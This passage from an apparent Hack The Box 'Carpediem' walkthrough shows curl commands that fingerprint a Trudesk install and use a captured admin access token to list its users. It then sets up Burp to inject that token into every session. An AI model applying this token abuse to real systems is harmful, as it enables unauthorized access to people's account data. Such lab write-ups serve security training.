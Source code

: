 
```bash
➜  carpediem curl http://trudesk.carpediem.htb/version
{"version":"1.1.11"}
```

Googling around I can't find any publicly disclosed exploits for Trudesk 1.1.11. 
Reading the [truedesk docs](https://docs.trudesk.io/v1/api/#Get) we should use the ``accessToken`` as a header, we can verify this by cURL'ign the API using the admin accesstoken:

```bash
➜  carpediem curl -H "accesstoken: 22e56ec0b94db029b07365d520213ef6f5d3d2d9" -l http://trudesk.carpediem.htb/api/v1/users
{"success":true,"count":5,"users":[{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c3471e0d4d001b0740d7","username":"acooke","email":"acooke@carpediem.htb","fullname":"Adeanna Cooke","title":"Director - Human Resources","role":{"_id":"623c8b20855cc5001a8ba139","name":"Support","description":"Default role for agents","normalized":"support","isAdmin":false,"isAgent":true,"id":"623c8b20855cc5001a8ba139"},"lastOnline":"2022-03-30T14:21:15.212Z","id":"6243c3471e0d4d001b0740d7","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c0be1e0d4d001b0740d4","username":"jhammond","email":"jhammond@carpediem.htb","fullname":"Jeremy Hammond","title":"Sr. Systems Engineer","role":{"_id":"623c8b20855cc5001a8ba139","name":"Support","description":"Default role for agents","normalized":"support","isAdmin":false,"isAgent":true,"id":"623c8b20855cc5001a8ba139"},"lastOnline":"2022-04-01T23:36:55.940Z","id":"6243c0be1e0d4d001b0740d4","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c28f1e0d4d001b0740d6","username":"jpardella","email":"jpardella@carpediem.htb","fullname":"Joey Pardella","title":"Desktop Support","role":{"_id":"623c8b20855cc5001a8ba139","name":"Support","description":"Default role for agents","normalized":"support","isAdmin":false,"isAgent":true,"id":"623c8b20855cc5001a8ba139"},"lastOnline":"2022-04-07T20:33:20.918Z","id":"6243c28f1e0d4d001b0740d6","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"6243c69d1acd1559cdb4019b","username":"svc-portal-tickets","email":"tickets@carpediem.htb","fullname":"Portal Tickets","title":"","role":{"_id":"623c8b20855cc5001a8ba13a","name":"User","description":"Default role for users","normalized":"user","isAdmin":false,"isAgent":false,"id":"623c8b20855cc5001a8ba13a"},"lastOnline":"2022-03-30T13:50:02.824Z","id":"6243c69d1acd1559cdb4019b","groups":[]},{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"623c8b20855cc5001a8ba13c","username":"admin","fullname":"Robert Frost","email":"rfrost@carpediem.htb","role":{"_id":"623c8b20855cc5001a8ba138","name":"Admin","description":"Default role for admins","normalized":"admin","isAdmin":true,"isAgent":true,"id":"623c8b20855cc5001a8ba138"},"title":"Sr. Network Engineer","lastOnline":"2022-04-07T20:30:32.198Z","id":"623c8b20855cc5001a8ba13c","groups":[]}]}
```

With the help of Burp extension _Add Custom Header_ add the accessToken and add it to all sessions (Project Options > Sessions > Session Handling Rules > Invoke a Burp extension ), don't forget to add the rule to be applied to _Proxy_ as well. 
